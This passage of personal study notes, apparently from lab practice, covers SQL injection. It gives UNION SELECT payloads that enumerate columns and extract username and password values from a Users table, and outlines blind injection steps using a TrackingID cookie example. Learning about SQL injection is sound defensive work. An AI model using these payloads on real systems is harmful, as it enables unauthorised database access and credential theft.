 - Find Columns Name
```
' UNION SELECT column_name, NULL, ... FROM information_schema.columns WHERE table_name = 'TABLE_FOUND_PREVIOUS_TASK' --
```
	- information_schema.columns      ---> Depend on the type of DB
	- table_name                      ---> Depend on the type of DB

- Find Database Value
```
' UNION SELECT username, password, NULL, ... FROM Users --
```

- Reformat Values
```
' UNION SELECT CONCAT(username, ",", password),NULL,... FROM Users--
```

**IF YOUR KEEP GETTING ERROS AND THINK THE SYNTHAX IS CORRECT, CHECK THE VERSION AND TYPE OF THE DATABASE (THIS SHOULD CHANGE YOUR QUERY)**


## <u>Steps SQL Injection (Blind)</u>

Type of SQL Injection (Blind) & Witch one to use (Depending on situation)
	- Equality Check                ---> Response show an element on the HTML page (Welcome Back)
	- Concatenation                 ---> Response from query can return 200 and 500 responses
	- Time Base                        ---> No response change in the request (Always 200)


## Equality Check Technique

Steps
- Prove parameter is vulnerable
- Find Tables
- Find Column Name ??? (Review)
- Find Variables in a Column
- Length of Variable (>,<,<=,>=)
- Enumeration of variable (abc...)

Example Cookie Request
![[Screenshot from 2022-12-05 18-45-22.png]]

Prove the TrackingID is vulnerable
```
' (error) & '' (back to normal)


```

The SQL request (Complement of prouving the TrackingID is vulnerable)
```
select tracking-id from tracking-table where trackingId = 'wQzpcksV9nxMDwHH'
```
- In this example, if the tracking id is true, it will return on the page "welcome back" (This will be our True and False statment that will help us determine if the SQL injection request we are doing is working or not working)
